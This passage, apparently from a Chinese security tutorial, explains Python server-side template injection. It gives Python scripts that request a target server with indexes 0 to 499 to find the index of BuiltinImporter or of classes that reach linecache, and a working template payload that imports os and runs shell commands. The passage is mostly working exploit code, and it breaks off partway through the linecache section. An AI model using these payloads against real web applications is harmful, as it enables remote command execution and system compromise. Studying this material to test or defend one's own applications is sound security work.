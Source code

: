 ### 寻找 importlib 类执行命令

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。我么可以直接利用该类中的 load_module 将 os 模块导入，从而使用 os 模块执行命令。

首先编写脚本遍历目标 Python 环境中 importlib 类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if '_frozen_importlib.BuiltinImporter' in res.text:
        print(i)

# 得到编号为69


```

构造如下 payload 即可执行命令：

```
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174657-2573bb86-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174657-2573bb86-bd3e-1.png)

### 寻找 linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先编写脚本遍历目标 Python 环境中含有 linecache 这个函数的子类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到一堆子类的索引:
168
169
203
206
207
208
```
